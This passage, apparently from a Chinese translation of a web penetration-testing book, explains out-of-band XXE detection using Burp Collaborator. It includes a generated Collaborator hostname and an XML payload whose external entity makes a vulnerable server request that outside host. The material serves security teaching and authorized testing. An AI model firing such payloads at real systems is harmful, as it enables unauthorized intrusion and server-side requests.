 我们将生成一个 Collaborator 主机，并在客户端窗口中选择**复制到剪贴板**。在生成主机名后，重要的是不要关闭 Collaborator 客户端，直到攻击结束。如果我们过早关闭它，Collaborator 将无法将发往该主机名的带外请求与我们的 Burp 会话关联：

![请求伪造](img/B09238_10_06.jpg)

图 10.6：将生成的 Collaborator 主机名复制到剪贴板

生成的值将类似于此：

```
gl50wfrstsbfymbxzdd454v2ut0jo8.burpcollaborator.net
```

现在我们将构建一个 XML 文档，从我们刚刚生成的 Burp Collaborator 主机中获取`publisher`值。我们希望当脆弱的应用程序尝试获取外部内容时，Burp Collaborator 能够拦截该请求并确认漏洞：

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE book [
  <!ELEMENT book ANY >
  <!ENTITY publisher SYSTEM "**http://gl50wfrstsbfymbxzdd454v2ut0jo8.burpcollaborator.net/publisher.xml**">
]>
<book>
  <title>The Flat Mars Society</title>
  <publisher>&publisher;</publisher>
  <author>Elon Musk</author>
</book>
```

### 注意
